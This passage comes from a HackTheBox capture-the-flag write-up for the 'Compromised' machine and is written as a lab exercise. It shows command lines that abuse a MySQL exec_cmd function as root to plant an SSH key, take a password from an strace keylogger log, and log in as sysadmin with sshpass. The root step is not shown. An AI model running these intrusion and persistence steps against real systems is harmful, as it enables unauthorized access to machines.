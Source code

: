 ```sh
ssh-keygen -t ed25519 -f 0x4rt3mis
```

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-10-05-HackTheBox-Compromissed/2021-10-05-HackTheBox-Compromissed%2003:27:09.png)

And now we add the key to authorized_keys

```sh
mysql -u root -pchangethis -e "select exec_cmd('mkdir /var/lib/mysql/.ssh')"
mysql -u root -pchangethis -e "select exec_cmd('echo ssh-ed25519 ABCD root@kali > /var/lib/mysql/.ssh/authorized_keys')"
```

Great

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-10-05-HackTheBox-Compromissed/2021-10-05-HackTheBox-Compromissed%2003:42:31.png)

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-10-05-HackTheBox-Compromissed/2021-10-05-HackTheBox-Compromissed%2003:43:26.png)

Now, just enter as mysql in ssh with the key

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-10-05-HackTheBox-Compromissed/2021-10-05-HackTheBox-Compromissed%2003:44:26.png)

# Mysql --> sysadmin

Now, let's start our privilege escalation

When we got the mysql shell we see a bunch of unsual files on home dir

The one called more my attention was the `strace` one, which is indicative of a possbile keylloger on the system, strace is a program designed to intercept and display or log system calls made by another processes.

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-10-05-HackTheBox-Compromissed/2021-10-05-HackTheBox-Compromissed%2007:38:52.png)

Giving a strings with password grepping we found some interesting things

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-10-05-HackTheBox-Compromissed/2021-10-05-HackTheBox-Compromissed%2007:40:25.png)

`3*NLJE32I$Fe` and it works for ssh too

```sh
sshpass -p '3*NLJE32I$Fe' ssh sysadmin@10.10.10.207
```

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-10-05-HackTheBox-Compromissed/2021-10-05-HackTheBox-Compromissed%2007:43:36.png)

# sysadmin --> root

The root path is trough analysis of a binary from dpkg and analysis it with ghydra. I'll not show it know for the lack of time. But I'll return here in the future to make it, I read from other blogs and the password to root is this, after you analyse the binary.

